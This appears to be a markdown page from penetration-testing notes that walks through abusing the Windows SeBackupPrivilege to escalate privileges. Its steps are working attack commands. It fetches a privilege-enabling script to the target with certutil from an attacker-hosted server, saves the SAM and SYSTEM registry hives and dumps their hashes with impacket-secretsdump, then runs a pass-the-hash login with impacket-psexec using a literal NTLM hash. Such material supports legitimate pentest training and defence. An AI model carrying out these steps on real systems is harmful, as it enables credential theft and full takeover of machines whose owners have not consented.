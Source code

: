 ```yaml
---
legal-banner: true
---
```


### **Introduction**

`SeBackupPrivilege` allows a user to back up files and directories.  
This privilege grants the ability to traverse any folder and list its contents, even if the user is not explicitly listed in the folder’s Access Control List (ACL).  

It is commonly assigned to service accounts for backup purposes, but during a penetration test it can be abused for privilege escalation.

### **Step 1: Check current user privileges**

1.  Check if the current user has `SeBackupPrivilege`:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/128.png)

    **Note:** If it is not enabled, proceed to Step 2.

### **Step 2: Enable SeBackupPrivilege (optional)**

1.  Download the **EnableAllTokenPrivs.ps1** script:  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  

    ![](../../../img/Windows-Environment/129.png)

    **Note:** Host the script with Python:  
    `python -m http.server 80`
    
2.  Transfer the script to the target machine with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/130.png)

3.  Import the script to enable the privilege:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify that `SeBackupPrivilege` is now enabled:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/131.png)

### **Step 3: Exploit — backup SAM & SYSTEM**

1.  Save the registry hives:  
    ```
    reg save hklm\system system.hive
    reg save hklm\sam sam.hive
    ```
    
    ![](../../../img/Windows-Environment/132.png)
    
2.  Transfer `sam.hive` and `system.hive` to the attacker machine (e.g., via SMB), then extract credentials with **impacket-secretsdump**:  
    `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`  
    
    ![](../../../img/Windows-Environment/133.png)
    
3.  Use the Administrator NTLM hash to perform a **Pass-the-Hash** attack and gain SYSTEM access:  
    `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:34386a771aaca697f447754e4863d38a administrator@[IP-ADDRESS]`  
    
    ![](../../../img/Windows-Environment/134.png)
